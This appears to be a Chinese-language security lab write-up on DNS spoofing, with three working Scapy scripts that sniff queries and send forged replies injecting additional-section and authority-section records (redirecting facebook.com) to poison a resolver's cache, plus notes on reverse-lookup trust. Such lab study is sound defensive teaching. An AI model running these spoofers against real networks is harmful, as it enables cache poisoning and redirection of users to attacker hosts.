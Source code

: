 # 恶意DNS服务器伪造攻击

## 在附加部分伪造数据

用户dig查询的是abc.attacker32.com，但攻击机回复的包含了额外的facebook.com，如果被DNS服务器接收，那就缓存了
恶意的解析地址  

```bash
vi spoof_additional_only.py
```
```python
#!/usr/bin/python
from scapy.all import *

def spoof_dns(pkt):
  if (DNS in pkt and 'abc.attacker32.com' in pkt[DNS].qd.qname):
    IPpkt = IP(dst=pkt[IP].src,src=pkt[IP].dst)
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    Anssec  = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                   rdata='192.168.0.101',ttl=259200)
    Addsec1 = DNSRR(rrname='www.attacker32.com', type='A',
                   ttl=259200, rdata='10.2.3.4')
    Addsec2 = DNSRR(rrname='facebook.com', type='A',
                    ttl=259200,rdata='10.2.3.5')
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1,rd=0,
                qdcount=1,qr=1,ancount=1,nscount=0,arcount=2,
                an=Anssec, ar=Addsec1/Addsec2)
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

pkt=sniff(filter='udp and dst port 53',
          prn=spoof_dns)
```

步骤：  
1、服务端清缓存  
```bash
sudo rndc flush
```
2、攻击机运行攻击程序  
![附加回复](../img/dns-attack-evil.png)

3、用户机发dig请求  
![发dig](../img/dns-user-receive.png)
实验说明附加字段信息被接受了

!!! warning

    书上filter是udp and (src host 192.168.230.154 and dst port 53)，做不出来这个效果
    
## 在授权部分伪造数据

```bash
vi spoof_additional_only2.py
```

```python
#!/usr/bin/python
from scapy.all import *

def spoof_dns(pkt):
  if (DNS in pkt and 'abc.attacker32.com' in pkt[DNS].qd.qname):
    IPpkt = IP(dst=pkt[IP].src,src=pkt[IP].dst)
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    Anssec  = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                   rdata='192.168.0.101',ttl=259200)
    NSsec1 = DNSRR(rrname='attacker32.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')
    NSsec2 = DNSRR(rrname='facebook.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1,rd=0,
                qdcount=1,qr=1,ancount=1,nscount=2,
                an=Anssec, ar=NSsec1/NSsec2)
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

pkt=sniff(filter='udp and dst port 53',
          prn=spoof_dns)
```
![伪造失败](../img/dns-spoof-nn.png)

!!! warning

    上面这个是书上的脚本，无法实现增加一个nn记录，只是说了有这种情况
    
## 在附加部分伪造与授权部分相关的数据

第一个实验附加部分伪造数据，附加部分的www.attacker32.com没有被接受，这次在授权部分增加两条与附加部分中
名字相关的记录。  
这个实验和上一个例子不一样，上一个是给facebook.com域提供NS记录，而这个例子是把facebook.com当作attacker32.com
域的一个域名服务器。虽然facebook.com不在attacker32.com的区域内，但作为域名服务器是允许的，因为一个域的权威
域名服务器不一定非要在这个域内。

```python
#!/usr/bin/python
from scapy.all import *

def spoof_dns(pkt):
  if (DNS in pkt and 'abc.attacker32.com' in pkt[DNS].qd.qname):
    IPpkt = IP(dst=pkt[IP].src,src=pkt[IP].dst)
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    Anssec  = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                   rdata='192.168.0.101',ttl=259200)
    Addsec1 = DNSRR(rrname='www.attacker32.com', type='A',
                   ttl=259200, rdata='10.2.3.4')
    Addsec2 = DNSRR(rrname='facebook.com', type='A',
                    ttl=259200,rdata='10.2.3.5')
    NSsec1 = DNSRR(rrname='attacker32.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')
    NSsec2 = DNSRR(rrname='facebook.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1,rd=0,
                qdcount=1,qr=1,ancount=1,nscount=2,arcount=2,
                an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

pkt=sniff(filter='udp and dst port 53',
          prn=spoof_dns)
```
![dig结果](../img/dns-additional3.png)

!!! Note

    本地DNS服务器的确发出了www.attacker.com和facebook.com的DNS请求，BIND域名服务器虽然缓存了这些信息，
    但因为安全原因，并不信任附加部分给出的IP地址。
    
## 在回复部分伪造数据：针对DNS反向查找

!!! Note

    通过反向DNS查询获得的域名不能被信任。如果确实想用域名作为安全检查的基础，那么在得到反向查询的结果后，
    还应当用这个结果做一次正向查询，并将正向查询得到的ip地址与原来ip地址进行比较。

反向查询过程：  
给到一个ip地址128.230.171.184（属于syr.edu区域），DNS解析器会构建一个假名字184.171.230.128.in-addr.arpa，然后
通过迭代过程发送请求。和正向查询一样，它会从root服务器开始，其后是in-addr.arpa服务器，然后是
128.in-addr.arpa服务器，最后到达230.128.in-addr.arpa服务器，这个服务器和syr.edu区域的域名服务
器相同。

反向查找过程：
![查找1](../img/dns-query1.png)
![查找2](../img/dns-query2.png)
![查找3](../img/dns-query3.png)
![查找4](../img/dns-query4.png)